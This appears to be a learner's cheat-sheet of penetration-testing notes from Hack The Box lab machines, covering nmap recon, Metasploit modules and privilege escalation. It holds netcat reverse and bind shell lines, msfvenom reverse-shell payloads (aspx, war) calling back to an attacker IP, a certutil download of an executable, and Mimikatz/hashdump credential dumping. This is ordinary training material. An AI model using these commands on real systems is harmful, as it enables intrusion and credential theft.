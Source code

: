 ### Host files from current dir 
` python -m SimpleHttpServer 8080 `
 
### python tools for network 
https://github.com/SecureAuthCorp/impacket

### Given a string, cut at delimiter ( space) and take 4th field as a result
cut -d " " -f 4  

## Recon

### Website tech identification
whatweb - Kali cli tool for identifying site ( better than most)

Wappalyzer - extension on browser

### netdiscover - arp in the network

netdiscover -r 192.168.88.0/24

### nmap
-sS - "Stealh scan" (not really , just syn, synack and RST - no sessions established) 

nmap -sS 192.168.88.128

nmap -T4 -p- -A

-p- - all ports  ( default is top 1000 ports) ;   -A - scan everything , version, OS, fingerprint

### SMB (and metasploit workflow)

msfconsole

search smb 

use auxiliary/scanner/smb/smb_version 

set RHOSTS 192.168.88.128

run

### nice to knows 
dpkg -i downloaded_package.deb  # install a package

### reverse shell ( just like pentestmonkey )
nc 192.168.1.1 4444 -e /bin/sh        --->   nc -lvp 4444

### bind shell 
nc 192.168.1.1 4444     ---->  nc -lvp 4444 -e /bin/sh

### Foxyproxy productivity 
use foxyproxy addon and add burpsuite settings to it. easy switching 


## Legacy
nmap -sS -p- 10.10.10.4 

nmap -A -p139,445,3389 10.10.10.4

nmap --script vuln -p445 10.10.10.4    ( looked at write-up for this to scan for vulns )

Find MS08-067(works) and  ms17-010(doesnt work)   Eternalblue.

search -f user.txt    , same for root. gg

learned from video :  getuid - windows whoami equivalent , sysinfo - obvious, help - meterpreter help ( lots of useful commands) ;
getsystem attempts to privesc ( might be a bit reckless)

## Lame
nmap --script vuln -p3632 10.10.10.3

3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

distcc indicated as vulnerable, msf unix/misc/distcc_exec gives shell

find / -user root -perm -4000 -print 2>/dev/null      ( find binaries with root privs)

elevate privileges with nmap ( should learn something new instead...)

https://pentestlab.blog/category/privilege-escalation/  

## blue
as name indicates

nmap --script vuln -p445 10.10.10.3   reports windows/smb/ms17_010_eternalblue)

didnt work on first try, resetted machine, tried other exploits, but this one eventually worked. 

##### video stuff
original exploit uses generic shell, but it is possible to "set payload windows/x64/meterpreter/reverse_tcp"  for improvement

*Autoblue* can be used and can deselect meterpreter (OSCP lol) . more manual and not msf

postexploit in windows: hashdump(meterpreter) , route print(shell) , arp -a(shell) , netstat -ano ( shell), ps (meterpreter)

meterpreter > load kiwi, mimikatz , a lot of stuff. Kiwi  : samdump, dumpsecrets

## devel
IIS7 with file upload by FTP. 

making payloads with msfvenom

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.36 LPORT=4444 -f aspx -o shell.aspx 

Needed write-up because new to IIS shells, and windows privesc. 

set payload windows/meterpreter/reverse_tcp

msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set lhost 10.10.14.36

msf5 exploit(multi/handler) > set lport 4444

background and session management.. anyway all thanks to https://x64.moe/hackthebox%20walkthrough%20:%20devel/

use post/multi/recon/local_exploit_suggester    ## for local exploits, new for me

##### video stuff
/usr/share/wordlists/ for dirbuster and other tools

FTP : if file transfer is failing, switch to binary mode with "I" option

privesc : sometimes inside meterpreter "getsystem" is enough lol ( not here)

### undisclosed machine

privesc  : sudo -l  .  nano file import

### jerry

weak password
*admin:admin* for status viewer. 

error on other paths:
<user username="tomcat" password="s3cret">  is actual pass   . Tomcat manager web shell upload.

Java server pages web shell

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.26 LPORT=4444 -f war >shell.war

#### video : 
for cred in $(cat file.txt);do echo -n $cred | base64; done    . example of 1 line bash

certutil  -urlcache -f http://10.10.14.26/sh.exe   // download over certutil (WIN) 
### Nibbler

sudo -l again. more php shells.

### optimum
using compiled winprivesc exploits ( ms16-32)
win exploits 
https://www.fuzzysecurity.com/tutorials/16.html
python2 windows-exploit-suggester.py --database 2020-01-14-mssb.xls --systeminfo ../systeminfo.txt --quiet
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
not much different video from https://alamot.github.io/optimum_writeup/ 

### Bashed



